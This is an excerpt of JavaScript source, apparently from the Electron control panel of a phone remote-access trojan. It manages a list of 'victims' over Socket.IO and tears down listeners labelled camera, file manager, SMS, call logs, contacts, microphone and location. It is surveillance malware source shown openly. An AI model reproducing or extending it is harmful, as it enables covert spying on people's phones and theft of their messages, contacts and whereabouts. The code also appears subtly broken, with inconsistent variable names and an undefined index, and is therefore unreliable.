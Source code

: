 ```javascript
    $appCtrl.Stop = (port) => {
      if (!port) {
        port = CONSTANTS.defaultPort;
      }
      
      //notify the main process to disconnect the port
      ipcRenderer.send('SocketIO:StopListen', port);
      $appCtrl.Log("Stopped Listening on Port: " + port, CONSTANTS.logStatus.SUCCESS);
    }

    //fired when main process sends any notification about the ServerDisconnect 
    ipcRenderer.on('SocketIO:ServerDisconnect', (event, index) => {
      delete viclist[index];
      $appCtrl.$apply();
    });

    // fired if stopping the listener brings error
    ipcRenderer.on("SocketIO:StopListen", (event, error) => {
      $appCtrl.Log(error, CONSTANTS.logStatus.FAIL);
      $appCtrl.$apply()
  });

    //notify the main process to close the lab
    $appCtrl.closeLab = (index) => {
      ipcRenderer.send('closeLabWindow', 'lab.html', index)
    }
```
- main.js
```javascript 
// fired when stopped listening for victim
ipcMain.on("SocketIO:StopListen", function (event, port) {

  IO.close();
  IO.sockets.on('connection', function (socket) {
    // decrease socket count on Disconnect
    socket.on('disconnect', function () {
      victimList.rmVictim(index)

      // notify the renderer process about the Server Disconnection
      win.webContents.send('SocketIO:ServerDisconnect', index);

      if (windows[index]) {
        // notify the renderer process about the Disconnected Server
        windows[index].webContents.send('SocketIO:ServerDisconnected', index);
        // delete the windows from the windowList
        delete windows[index];
      }
    });
  });
});


ipcMain.on("closeLabWindow", function (event, index) {
  delete windows[index];
  //on lab window closed remove all socket listners
  if (victimsList.getVictim(index).socket) {
    victimsList.getVictim(index).socket.removeAllListeners("x0000ca"); // camera
    victimsList.getVictim(index).socket.removeAllListeners("x0000fm"); // file manager
    victimsList.getVictim(index).socket.removeAllListeners("x0000sm"); // sms
    victimsList.getVictim(index).socket.removeAllListeners("x0000cl"); // call logs
    victimsList.getVictim(index).socket.removeAllListeners("x0000cn"); // contacts
    victimsList.getVictim(index).socket.removeAllListeners("x0000mc"); // mic
    victimsList.getVictim(index).socket.removeAllListeners("x0000lm"); // location
```